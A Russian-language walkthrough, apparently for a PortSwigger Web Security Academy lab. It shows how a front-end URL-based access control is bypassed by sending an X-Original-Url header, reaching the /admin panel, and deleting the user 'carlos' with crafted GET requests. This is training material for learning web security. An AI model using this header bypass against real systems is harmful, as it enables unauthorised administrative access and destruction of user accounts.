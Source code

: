 По заданию нам известно, что ресурс содержит директорию `/admin`. Попробуем зайти на нее, и проверить, открыта для она для общего доступа
```
https://0a33008704b9296e80736caf0012000e.web-security-academy.net/admin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/7.%20Access%20control/5.%20URL-based%20access%20control%20can%20be%20circumvented/pics%20for%20walktrough/1.png)
Попробуем обойти настройки ACL, используя параметр `X-ORIGINAL-URL : /admin`
```
GET / HTTP/2
...
X-Original-Url: /admin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/7.%20Access%20control/5.%20URL-based%20access%20control%20can%20be%20circumvented/pics%20for%20walktrough/2.png)

Видим, что мы обошли настройки ACL. Осталость удалить пользователя `carlos`. Откроем прошлый запрос в браузере, чтобы увидеть url для удаления пользователя `carlos`
```
https://0a33008704b9296e80736caf0012000e.web-security-academy.net/admin/delete?username=carlos
```
Изменим наш запрос на
```
GET /?username=carlos
...
X-Original-Url: /admin/delete

```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/7.%20Access%20control/5.%20URL-based%20access%20control%20can%20be%20circumvented/pics%20for%20walktrough/3.png)
Далее перейдем на корневую страницу, и увидим, что сервер обработал запрос, и удалил УЗ `carlos`
